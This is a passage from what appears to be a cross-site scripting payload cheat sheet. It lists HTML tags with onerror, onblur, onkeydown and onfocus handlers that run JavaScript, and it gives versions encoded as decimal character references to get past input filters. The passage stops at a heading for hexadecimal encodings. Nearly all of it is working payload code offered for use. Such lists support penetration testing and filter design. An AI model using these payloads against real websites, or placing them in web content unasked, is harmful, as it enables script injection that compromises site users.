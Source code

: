 #### Onerror

```js
<img src=1 href=1 onerror="javascript:alert(1)"></img>
```

```js
<body src=1 href=1 onerror="javascript:alert(1)"></body>
```

```js
<script src=1 href=1 onerror="javascript:alert(1)"></script>
```

#### Onblur

```js
<body onblur body onblur="javascript:javascript:alert(1)"></body onblur>
```

```js
<input onblur=javascript:alert(1) autofocus><input autofocus>
```

#### OnKeyDown

```js
<body onkeydown body onkeydown="javascript:javascript:alert(1)"></body onkeydown>
```

#### Onfocus

```js
<body onfocus body onfocus="javascript:javascript:alert(1)"></body onfocus>
```

### Encoded Payloads

-   alert encode

```
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```

-   HTML Decimal Character References

```
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
```

```
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
```

-   HTML Hexadecimal Character References
